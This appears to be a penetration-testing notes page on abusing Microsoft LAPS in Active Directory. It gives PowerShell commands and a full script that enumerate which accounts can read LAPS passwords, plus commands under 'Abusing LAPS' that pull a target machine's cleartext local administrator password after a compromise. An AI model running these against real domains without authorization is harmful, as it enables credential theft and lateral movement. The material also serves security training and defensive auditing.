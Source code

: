 # Domain Privilege Escalation - LAPS

- [Domain Privilege Escalation - LAPS](#domain-privilege-escalation---laps)
  - [LAPS](#laps)
  - [LAPS Enumerations](#laps-enumerations)
  - [Abusing LAPS](#abusing-laps)

---

## LAPS

**LAPS (Local Administrator Password Soltuion)** provides centralized storage of local users passwords in AD with periodic randomizing.

> *... it mitigates the risk of lateral escalation that results when customers have the same administrative local account and password combination on many computers.*

The password is stored in Cleartext, but the transmission is encrypted (Kerberos). 

LAPS is configurable using **GPO** and the access control for reading cleartext password is using **ACL** - **only Domain Admins and explicitly allowed users** can read the cleartext passwords.

![picture 9](images/16b272acb8b8a470473c76a2fc299c2a44016578e2928a53dd6ac92e2ed080a4.png)  


<br/>

## LAPS Enumerations

**Discovering the use of LAPS**

To identify a computer using LAPS, a library can be found:

- `C:\Program Files\LAPS\CSE\AdmPwd.dll`

<br/>

**Find users who can read the passwords in OUs**

- PowerView

```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ?{ ($_.ObjectAceType -Like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') } | %{ $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```

Note:
https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/

<br/>

**Enumerate OUs where LAPS is in use along with users who can read the passwords in cleartext**

- AD Module + Get-LapsPermission.ps1

```
#Requires -Modules ActiveDirectory

# If you do not have AD module, you can refer to the following link.
# https://github.com/samratashok/ADModule

# From https://blogs.technet.microsoft.com/ashleymcglone/2013/03/25/active-directory-ou-permissions-report-free-powershell-script-download/
$schemaIDGUID = @{}
### NEED TO RECONCILE THE CONFLICTS ###
$ErrorActionPreference = 'SilentlyContinue'
Get-ADObject -SearchBase (Get-ADRootDSE).schemaNamingContext -LDAPFilter '(schemaIDGUID=*)' -Properties name, schemaIDGUID |
 ForEach-Object {$schemaIDGUID.add([System.GUID]$_.schemaIDGUID,$_.name)}
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).configurationNamingContext)" -LDAPFilter '(objectClass=controlAccessRight)' -Properties name, rightsGUID |
 ForEach-Object {$schemaIDGUID.add([System.GUID]$_.rightsGUID,$_.name)}
$ErrorActionPreference = 'Continue'

# Get a list of all OUs.  Add in the root containers for good measure (users, computers, etc.).
$OUs  = @(Get-ADDomain | Select-Object -ExpandProperty DistinguishedName)
$OUs += Get-ADOrganizationalUnit -Filter * | Select-Object -ExpandProperty DistinguishedName
$OUs += Get-ADObject -SearchBase (Get-ADDomain).DistinguishedName -SearchScope OneLevel -LDAPFilter '(objectClass=container)' | Select-Object -ExpandProperty DistinguishedName

# Loop through each of the OUs and retrieve their permissions.
# Add report columns to contain the OU path and string names of the ObjectTypes.
ForEach ($OU in $OUs) {
    $report += Get-Acl -Path "AD:\$OU" |
     Select-Object -ExpandProperty Access | 
     Select-Object @{name='organizationalUnit';expression={$OU}}, `
                   @{name='objectTypeName';expression={if ($_.objectType.ToString() -eq '00000000-0000-0000-0000-000000000000') {'All'} Else {$schemaIDGUID.Item($_.objectType)}}}, `
                   @{name='inheritedObjectTypeName';expression={$schemaIDGUID.Item($_.inheritedObjectType)}}, *
}

# Filter out ms-Mcs-AdmPwd

Write-Output "`nRead Rights"
$report | ?{($schemaIDGUID.Item($_.objectType) -eq "ms-Mcs-AdmPwd") -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | select organizationalUnit, IdentityReference

Write-Output "`nWrite Rights`n"
$report | ?{($schemaIDGUID.Item($_.objectType) -eq "ms-Mcs-AdmPwd") -and ($_.ActiveDirectoryRights -match 'WriteProperty')} | select organizationalUnit, IdentityReference
```

- Using LAPS module (can be copied across machines)

```
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1

Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

<br/>

## Abusing LAPS

Once we compromise a user with LAPS Read permission, use the following commands to read cleartext password:

- PowerView

```
Get-ADObject -SamAccountName <target_machine>$ | Select -ExpandProperty ms-mcs-admpwd
```

- AD Module

```
Get-ADComputer -Identity <target_machine> -Properties ms-mcs-admpwd | Select -ExpandProperty ms-mcs-admpwd
```

- LAPS module

```
Get-AdmPwdPassword -ComputerName <target_machine>
```

Note:
Abuse LAPS for Persistence: 
https://rastamouse.me/blog/weaponizing-cve-2019-0841/
https://2017.hack.lu/archive/2017/HackLU_2017_Malicious_use_LAPS_Clementz_Goichot.pdf

<br/>

